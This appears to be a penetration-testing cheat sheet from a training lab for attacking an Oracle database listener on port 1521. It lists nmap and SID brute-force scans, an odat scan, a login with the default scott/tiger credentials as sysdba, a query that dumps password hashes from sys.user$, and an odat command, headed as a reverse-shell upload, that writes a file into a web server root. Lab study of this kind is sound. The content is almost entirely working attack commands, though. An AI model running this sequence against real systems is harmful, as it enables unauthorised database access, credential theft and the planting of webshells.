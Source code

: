 Port: 1521

nmap default scan:

```shell
sudo nmap -p1521 -sV 10.129.204.235 --open
```

nmap sid brute force:

```shell
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```

Scan DB (odat):

```shell
./odat.py all -s 10.129.204.235
```

SQL login:

```shell
sqlplus scott/tiger@10.129.204.235/XE

sqlplus scott/tiger@10.129.204.235/XE as sysdba
```

Extract user creds:

```shell
select name, password from sys.user$;
```

Upload reverse Shell:

```shell
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

